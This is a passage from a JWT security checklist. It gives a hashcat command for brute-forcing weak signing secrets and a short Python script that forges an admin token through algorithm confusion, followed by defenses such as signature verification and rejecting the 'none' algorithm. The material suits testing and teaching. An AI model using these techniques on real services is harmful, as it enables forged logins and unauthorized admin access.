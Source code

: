 #### 4. Weak Symmetric Secrets
- [ ] **Steps**:
    1. Retrieve the JWT.
    2. Use tools like Hashcat to bruteforce the secret.
    3. Forge a new JWT with the cracked secret.
- [ ] **Example**:
    - [ ] Hashcat Command:
```bash
        hashcat -m 16500 jwt.txt jwt.secrets.list
```

---
#### 5. Signature Algorithm Confusion
- [ ] **Steps**:
    1. Retrieve the JWT and public key.
    2. Downgrade the algorithm to `HS256`.
    3. Use the public key as the secret to sign the JWT.
- [ ] **Example**:
    - [ ] Python Script:
```python
        import jwt
        
        public_key = "ADD_KEY_HERE"
        payload = {"username": "user", "admin": 1}
        token = jwt.encode(payload, public_key, algorithm="HS256")
        print(token)
```
        
---
### Defenses
#### 1. Secure Payloads
- [ ] Avoid storing sensitive data in the payload.
- [ ] Example:
```json
    {
      "username": "user",
      "admin": 0,
      "exp": 1698765432
    }
```
#### 2. Signature Verification
- [ ] Always verify the JWT signature using the correct secret or public key.
- [ ] Example:
    payload = jwt.decode(token, secret, algorithms=["HS256"])
#### 3. Reject "None" Algorithm
- [ ] Reject JWTs with the `none` algorithm.
- [ ] Example:
```python
    if header["alg"] == "none":
        raise Exception("Invalid algorithm")
```
